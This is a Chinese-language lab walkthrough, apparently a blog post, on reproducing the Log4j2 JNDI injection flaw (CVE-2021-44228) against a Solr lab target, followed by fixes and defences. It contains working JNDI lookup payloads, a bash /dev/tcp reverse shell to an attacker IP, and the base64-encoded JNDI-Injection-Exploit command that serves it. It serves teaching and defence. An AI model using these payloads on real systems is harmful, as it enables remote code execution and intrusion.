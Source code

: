 # Apache Log4j2 查找功能 JNDI 注入 (CVE-2021-44228)

# 漏洞描述

**Apache log4j是Apache的一个开源项目，Apache log4j 2是一个就Java的日志记录工具。该工具重写了log4j框架，并且引入了大量丰富的特性，可以控制日志信息输送的目的地为控制台、文件、GUI组建等，通过定义每一条日志信息的级别，能够更加细致地控制日志的生成过程。**

**log4j2中存在JNDI注入漏洞，当程序记录用户输入的数据时，即可触发该漏洞。成功利用该漏洞可在目标服务器上执行任意代码**





# LDAP

轻型目录访问协议（Lightweight Directory Access Protocol，是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问控制和维护分布式信息的目录信息







# JNDI

**JNDI(Java Naming and Directory Interface,Java命名和目录接口)是SUN公司提供的一种标准的Java命名系统接口，JNDI提供统一的客户端API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java应用程序可以和这些命名服务和目录服务之间进行交互**。

通俗点讲，就是通过名字去寻找对应的资源、位置、服务、对象…当数据源发生变化时，只需要修改数据源就可以了


# JNDI实现原理

JNDI通过lookup()方法解析接收自应用程序的信息，从而去对应的服务（如LDAP、RMI、DNS、文件系统、目录服务…）查找资源。

格式 **${jndi:rmi:192.168.61.129:1099/kvssa5}**

![img](https://img-blog.csdnimg.cn/d34e659f4667479194b573190b3c2ad0.png#pic_center)

# log4j2漏洞原理

**日志中包含 ${},lookup就会去解析括号里面的内容，**

**如：攻击payload:${jndi:rmi:192.168.96.1:1099/wqiyua}**

**当lookup解析到jndi时，就会调用jndi并利用rmi，执行攻击机jndi服务下的class文件并执行，从而造成任意命令执行漏洞**

**exp分析**

```
jndi:ldap:192.168.61.129:1099/shellhttp://192.168.61.129/kvssa5其中kvssa5为恶意脚本当用户输入信息时，应用程序中的log4j2组件会将信息记录到日志中假如日志中含有该语句{jndi:ldap:192.168.61.129:1099/kvssa5}，log4j就会去解析该信息，通过jndi的lookup()方法去解析该URL：ldap:192.168.61.129:1099/kvssa5
解析到ldap，就会去192.168.61.129:1099的ldap服务找名为shell的资源，如果找不到就会去http服务中找
在http中找到shell之后，就会将资源信息返回给应用程序的log4j组件，而log4j组件就会下载下来，然后发现shell是一个.class文件，就会去执行里面的代码，从而实现注入
攻击者就可以通过shell实现任意的命令执行，造成严重危害
```





# 影响范围

- Apache Log4j 2.x < 2.15.0-rc2





# 漏洞复现(检测)

**验证漏洞**

靶场启动成功后，浏览器访问: http://192.168.61.138:8983/solr/admin/cores?action=1

就进入到以下界面，显示的是一堆json格式的数据

![img](https://img-blog.csdnimg.cn/8d794f8590cf42068f33724dc4887bda.png#pic_center)

访问http://dnslog.cn/ 获取一个临时域名

![访问dnslog](https://img-blog.csdnimg.cn/5ad5906ae9644dbdaaa25e855d3c3ab6.png#pic_center)

利用获取到的临时域名构造payload ，直接访问

![构造payload访问](https://img-blog.csdnimg.cn/3af017c0c9e64ebc99289a40eb609c66.png#pic_center)

访问之后，我们查看dnslog.cn页面,点击Refresh按钮刷新，可以看到有请求访问记录，表明存在log4j2漏洞

![刷新dnslog](https://img-blog.csdnimg.cn/bfd05cb8fd1b49119b7627f8951d0036.png#pic_center)







# 反弹shell

已经漏洞存在的情况下，构造攻击payload执行命令反弹shell

```
bash -i >& /dev/tcp/192.168.61.129/4444 0>&1 
```

由于Runtime执行linux命令时管道符不生效，所以需要将命令进行加密

![加密](https://img-blog.csdnimg.cn/6c6e4035801b4582ae56a99c98a0432d.png#pic_center)

https://www.yster.live/runtime-exec-payloads/



**打开kali虚拟机，利用JNDI注入工具 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar**

**JNDI注入工具下载地址: https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0**

**192.168.61.129为kali攻击机监听地址，kali机执行**

**java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “反弹shell命令” -A “该IP是开启JDNI服务的主机地址”**

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYxLjEyOS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.61.129
```

![kali利用JNDI注入工具](https://img-blog.csdnimg.cn/7b87cb8fb28844ab9611557590d4b8f6.png#pic_center)

得到rmi、ldap参数

![rmi、ldap参数](https://img-blog.csdnimg.cn/4026b676ed8842e2819b1a71245b5024.png#pic_center)

然后在kali攻击机上开启nc监听4444端口

在浏览器访问payload

![浏览器访问payload](https://img-blog.csdnimg.cn/379c801d83014c19b0a1e64088ceaaeb.png#pic_center)

查看监听端，发现shell反弹成功

![反弹shell](https://img-blog.csdnimg.cn/209eeb70b11c42b494cac48a220fe2c8.png#pic_center)

# 修复与防御

## 修复

**补丁之前**

1. 可升级jdk版本至6u211 / 7u201 / 8u191 / 11.0.1以上，可以在一定程度上限制JNDI等漏洞利用方式。
2. 关闭`lookup`功能，即：设置 JVM 启动参数 - `Dlog4j2.formatMsgNoLookups=true`

**更新到rce1**

https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1。

但不久就被绕过了，经过测试发现URI中不进行URL编码会报这个错，加个空格即可触发${jndi:ldap://127.0.0.1:1389/ badClassName}（需要用户开启lookup功能的基础上才可以）


## 防御

- 禁止用户输入的参数中出现攻击关键字（过滤用户输入）
- 禁止lookup下载远程文件（命名应用）
- 禁止log4j的应用去连接外网
- 禁止log4j使用lookup方法
- 从log4j 的jar包总删除lookup（2.10以下版本）
- 升级到最新版本
- 使用waf



[传送门](https://blog.csdn.net/weixin_46198176/article/details/124917641?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165487344516781685370922%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=165487344516781685370922&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-124917641-null-null.142^v13^pc_search_result_control_group,157^v14^control&utm_term=Apache+Log4j2+%E6%9F%A5%E6%89%BE%E5%8A%9F%E8%83%BD+JNDI+%E6%B3%A8%E5%85%A5+%28CVE-2021-44228%29&spm=1018.2226.3001.4187)